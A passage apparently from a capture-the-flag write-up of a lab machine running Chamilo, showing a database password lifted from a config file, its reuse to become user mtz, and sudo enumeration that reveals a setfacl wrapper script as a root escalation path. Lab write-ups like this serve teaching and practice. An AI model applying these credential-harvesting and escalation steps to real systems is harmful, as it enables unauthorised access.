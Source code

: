 ```php
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

The password is `03F6lY3uXAP2bkW8`.

## Shell as mtz

That password is shared as the password for the mtz user, using the `su` command you can switch to that user. If I connect through ssh the `user.txt` flag is there:

```
mtz@permx:~$ ls -l
total 4
-rw-r----- 1 root mtz 33 Sep  7 16:48 user.txt
mtz@permx:~$ cat user.txt
1cdfd162************************
```

## Shell as root

`mtz` can run a Bash script as any user with `sudo`:

```
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

The script allows the user to set the file access control list (FACL) for a file using the `setfacl` command:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```